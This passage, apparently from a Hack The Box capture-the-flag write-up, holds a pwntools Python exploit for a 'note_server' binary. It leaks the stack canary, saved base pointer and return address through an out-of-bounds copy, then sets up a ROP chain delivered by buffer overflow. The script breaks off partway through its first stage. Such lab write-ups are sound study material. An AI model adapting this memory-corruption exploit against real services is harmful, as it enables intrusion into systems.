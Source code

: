 ### Exploit Development of `note_server`

Armed with the insights, here's my exploit code.

```python
from pwn import *

context(os='linux', arch='amd64')

host = '127.0.0.1'
port = 5001
fd = 4

def write_note(io, note, length=None):
    if length is None:
        length = len(note)

    io.send(p8(1))
    io.send(p8(length))
    io.send(note)

def copy_note(io, offset, copySize):
    io.send(p8(2))
    io.send(p16(offset))
    io.send(p8(copySize))

def read_notes(io, size=None):
    io.send(p8(3))
    if size is None:
        recv = io.recvall()
    else:
        recv = io.recv(size)
    return recv

def write_to_end(io, written=0):
    g = cyclic_gen()
    while written < 1024:
        chunk = min(255, 1024 - written)
        write_note(io, g.get(chunk))
        written += chunk

def do_rop(io, canary, rbp, rop):
    buf = p64(0xDEAD)
    buf += p64(canary)
    buf += p64(rbp)
    buf += rop.chain()

    write_note(io, buf)
    write_to_end(io, len(buf))
    copy_note(io, 0, len(buf))
    read_notes(io, 1024 + len(buf))

def stage1():
    # stack canary + ebp
    io = remote(host,port)
    write_to_end(io)

    read_size = 4*8
    copy_note(io, 1024, read_size)
    leak = read_notes(io, 1024+read_size)[1024:]
    canary = u64(leak[8:16])
    rbp = u64(leak[16:24])
    rip = u64(leak[24:])

```

[1]: https://www.hackthebox.eu/home/machines/profile/261
[2]: https://www.hackthebox.eu/home/users/profile/19014
[3]: https://www.hackthebox.eu/